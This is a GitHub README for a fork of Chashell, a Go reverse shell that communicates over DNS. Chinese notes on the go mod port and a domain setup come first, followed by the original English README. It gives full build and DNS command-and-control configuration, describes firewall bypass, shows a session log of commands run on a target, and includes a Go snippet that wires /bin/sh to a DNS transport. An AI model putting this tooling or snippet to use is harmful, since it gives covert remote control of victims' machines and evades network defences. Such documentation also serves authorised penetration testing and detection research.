 # Chashell

## Ports

移除原版透過dep管理套件的方式，改以go 1.18 go mod方式管理套件。

## 使用教學

### 設定DNS

假設root domain是chtrt.tw  
DNS上要設定兩條record，首先為DNS Server(預計執行chaserv的主機)設定A Record:
```
# 設定chashell.chtrt.tw指向1.160.2.3
chashell 300 IN A 1.160.2.3
```
接下來設定NS Record讓c.chtrt.tw由chaserv主機控制
```
c 300 IN NS chashell.chtrt.tw.
```
後續chashell會將執行結果透過c.chtrt.tw進行傳送

### 編譯

1. 安裝gox工具  
    ```
    go install github.com/mitchellh/gox@latest
    ```
2. 設定環境變數  
    其中ENCRYPTION_KEY是用來做對稱加密的密碼，必須是32位元的hex string  
    ```
    $ export DOMAIN_NAME=c.chtrt.tw
    # python3
    $ export ENCRYPTION_KEY=$(python3 -c 'from secrets import token_hex; print(token_hex(32))')
    # python2
    $ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
    ```
3. 編譯
    ```
    $ make build-all
    ```

下面是原版readme，留在底下提供參考

## Reverse Shell over DNS

Chashell is a [Go](https://golang.org/) reverse shell that communicates over DNS. 
It can be used to bypass firewalls or tightly restricted networks.

It comes with a multi-client control server, named `chaserv`.

![Chaserv](img/chaserv.gif)

### Communication security

Every packet is encrypted using symmetric cryptography ([XSalsa20](https://en.wikipedia.org/wiki/Salsa20) + [Poly1305](https://en.wikipedia.org/wiki/Poly1305)), with a shared key between the client
and the server.

We plan to implement asymmetric cryptography in the future.

### Protocol

Chashell communicates using [Protocol Buffers](https://developers.google.com/protocol-buffers/) serialized messages. For reference, the Protocol Buffers structure (`.proto` file) is available in the `proto` folder.

Here is a (simplified) communication chart :

![Protocol](img/proto.png)

Keep in mind that every packet is encrypted, hex-encoded and then packed for DNS transportation.

### Supported systems

Chashell should work with any desktop system (Windows, Linux, Darwin, BSD variants) that is supported by the Go compiler.

We tested those systems and it works without issues :

* Windows (386/amd64)
* Linux (386/amd64/arm64)
* OS X (386/amd64)

### How to use Chaserv/Chashell

#### Building


編譯binaries  
Build all the binaries (adjust the domain_name and the encryption_key to your needs):


```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.sysdream.com
$ make build-all
```

Build for a specific platform:

```
$ make build-all OSARCH="linux/arm"
```

Build only the server:

```
$ make build-server
```

Build only the client (*chashell* itself):

```
$ make build-client
```

#### DNS Settings

* Buy and configure a domain name of your choice (preferably short).
* Set a DNS record like this : 

```
chashell 300 IN A [SERVERIP]
c 300 IN NS chashell.[DOMAIN].
```

#### Usage

Basically, on the server side (attacker's computer), you must use the `chaserv` binary. For the client side (i.e the target), use the `chashell` binary.

So:

* Run `chaserv` on the control server.
* Run `chashell` on the target computer.

The client should now connect back to `chaserv`:

```
[n.chatelain]$ sudo ./chaserv
chashell >>> New session : 5c54404419e59881dfa3a757
chashell >>> sessions 5c54404419e59881dfa3a757
Interacting with session 5c54404419e59881dfa3a757.
whoami
n.chatelain
ls /
bin
boot
dev
[...]
usr
var
```

Use the `sessions [sessionid]` command to interact with a client.
When interacting with a session, you can use the `background` command in order to return to the `chashell` prompt.

Use the `exit` command to close `chaserv`.

## Implement your own

The `chashell/lib/transport` library is compatible with the `io.Reader` / `io.Writer` interface. So, implementing a reverse shell is as easy as :

```go
cmd := exec.Command("/bin/sh")

dnsTransport := transport.DNSStream(targetDomain, encryptionKey)

cmd.Stdout = dnsTransport
cmd.Stderr = dnsTransport
cmd.Stdin = dnsTransport
cmd.Run()
```

## Debugging

For more verbose messages, add `TAGS=debug` at the end of the make command.

## To Do

* Implement asymmetric cryptography ([Curve25519](https://en.wikipedia.org/wiki/Curve25519), [XSalsa20](https://en.wikipedia.org/wiki/Salsa20) and [Poly1305](https://en.wikipedia.org/wiki/Poly1305))
* Retrieve the host name using the `InfoPacket` message.
* Create a *proxy/relay* tool in order to tunnel TCP/UDP streams (Meterpreter over DNS !).
* Better error handling.
* Get rid of dependencies.

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>